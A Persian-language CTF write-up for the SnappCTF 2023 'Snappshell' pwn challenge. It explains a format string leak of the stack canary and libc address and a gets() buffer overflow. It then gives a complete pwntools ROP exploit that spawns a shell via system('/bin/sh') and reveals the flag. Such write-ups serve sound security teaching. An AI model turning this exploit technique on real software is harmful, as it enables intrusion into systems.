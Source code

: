 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2023
  - PWN
  - Exploit
  - Shell
  - ROP
  - Pwntools
  - Canary
  - BufferOverflow
---
```

# Snappshell

<center>
![challenge](Snappshell-1.png)
</center>

در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :) 

<center>
![Snappshell-2.png](Snappshell-2.png)
</center>

بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.

<center>
![Snappshell-3.png](Snappshell-3.png)
</center>

بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.
`%31$p`
با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.

<center>
![Snappshell-4.png](Snappshell-4.png)
</center>

بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد. 

جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.

<center>
![Snappshell-5.png](Snappshell-5.png)
</center>


برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:  
[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)
[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)
[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)

از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :
`docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 .`

بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید: 
<center>
![Snappshell-6.png](Snappshell-6.png)
</center>

در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
```python
from pwn import *

def index(s):
    p.sendlineafter(b'4- exit\n', b"3")
    p.sendline(s)
    return p.readline().rstrip()

def echo(s):
    p.sendlineafter(b'4- exit\n', b"1")
    p.sendlineafter(b'Enter your input\n', s.encode())
    return p.readline().strip()

#p = remote('91.107.177.236', 3117)
p = process('./shell_patched')
libc = ELF('./libc.so.6', checksec = False)

libc_add = echo(f'%33$p')

canary = p64(int(echo(f'%31$p'), 16))

libc_add = p64(int(libc_add, 16))

libc_add = int.from_bytes(libc_add, byteorder = 'little')

libc.address = (libc_add - 0x1e40) - 0x0000000000028000

pop = libc.address + 0x000000000002a3e5

ret = libc.address + 0x0000000000029139

final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])

p.sendlineafter(b'4- exit\n', b"3")
p.sendline(final_payload)

p.interactive()
p.close()
```



??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۶
	